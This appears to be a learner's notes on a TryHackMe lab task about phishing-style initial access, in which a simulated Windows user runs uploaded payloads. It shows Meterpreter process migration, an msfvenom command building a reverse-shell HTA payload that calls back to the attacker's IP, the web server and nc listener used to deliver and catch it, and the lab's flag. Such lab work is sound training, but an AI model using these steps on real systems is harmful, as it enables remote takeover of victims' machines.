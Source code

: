 We have prepared a Windows 10 machine that runs a user simulation web app to execute your payloads or visit the malicious HTA links automatically. Deploy the attached machine and wait a couple of minutes until it's up and running. Then, visit the user simulator web application at http://MACHINE_IP:8080/.

Make sure to visit the user simulator web application from the AttackBox, or you can access it by connecting to the VPN.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/d92b185b39570d4740e6f6a8e905124a.png)  

The web application allows uploading payloads as VBS, DOC, PS1 files. In addition, if you provide a malicious HTA link, the web application will visit your link.

**Note for Doc files**: the simulation used in the provided Windows 10 machine will open the malicious Word document and be closed within 90 seconds. In order to get longer prescience, you need to migrate as soon as you receive the connection back. 

In the Metasploit framework, we can inject our current process into another process on the victim machine using migrate. In our case, we need to migrate our current process, which is the MS word document, into another process to make the connection stable even if the MS word document is closed. The easiest way to do this is by using migrate post-module as follow,

Terminal

```shell-session
meterpreter > run post/windows/manage/migrate 

[*] Running module against DESKTOP-1AU6NT4
[*] Current server process: svchost.exe (3280)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 4960
[+] Successfully migrated into process 4960
```

In this task, the goal is to generate a reverse shell payload of your choice and send it through the web application. Once the web application runs your payload, you should receive a connect back. Answer the question below and prove your access by finding the flag once you receive a reverse shell.

For reference, you can use the MSFVenom Cheat Sheet on this [website](https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/).

Answer the questions below

What is the flag? **Hint**: Check the user desktop folder for the flag!

	THM{b4dbc2f16afdfe9579030a929b799719}
	
![[Pasted image 20220326073853.png]]

Create Paylod
```shell
~/tools/metasploit-framework/msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.1.55 LPORT=9001 -f hta-psh -o thm.hta
```

Start Web Server
```shell
python3 -m http.server
```

Start Listener
```shell
nc -lvnp 9001
```

Visit link!
http://10.13.1.55:8000/thm.hta

![[Pasted image 20220326083713.png]]

![[Pasted image 20220326083824.png]]

Change to desktop for thm user and get flag.
![[Pasted image 20220326083950.png]]
